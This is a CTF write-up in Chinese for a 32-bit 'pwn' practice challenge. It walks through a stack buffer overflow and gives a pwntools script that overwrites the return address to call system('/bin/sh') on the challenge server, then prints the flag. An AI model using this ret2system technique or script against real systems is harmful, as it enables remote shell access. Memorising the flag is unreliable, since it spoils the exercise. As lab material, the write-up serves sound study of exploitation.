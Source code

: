 https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5055&page=1

# 分析

1. checksec查看，简要分析为栈溢出。

   ```
     Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

2. IDA32打开文件查看，字符串窗口发现/bin/sh，地址为0x084A024。

   ![image-20210807212511452](C:\my_ctf_learning\writeup\MISC\攻防世界\images\image-20210807212511452.png)

3. 函数窗口发现callsystem函数，地址为0x08048320

   ![image-20210807212652309](C:\my_ctf_learning\writeup\MISC\攻防世界\images\image-20210807212652309.png)

4. 输入函数，buf长度为0x88，buf后面长度为0x4

   ```
   ssize_t vulnerable_function()
   {
     char buf; // [esp+0h] [ebp-88h]
   
     system("echo Input:");
     return read(0, &buf, 0x100u);
   }
   ```

   

![image-20210807213054247](C:\my_ctf_learning\writeup\MISC\攻防世界\images\image-20210807213054247.png)

5. python脚本：

   ```
   from pwn import *
   
   payload = b'a'*0x88 + b'a' * 4 + p32(0x08048320) + p32(0) + p32(0x0804A024)
   print(payload)
   
   io = remote('111.200.241.244',60946)
   io.send(payload)
   io.interactive()
   ```

   **在32位程序运行中，函数参数直接压入栈中，调用函数时栈的结构为：调用函数地址 --- 函数返回的地址 -- 参数n -- 参数n-1 -- ... -- 参数1**，**函数的返回地址一般为0**

6. 得到flag： cyberpeace{9eea7a444d61f6a7788acc8f4cf64513}

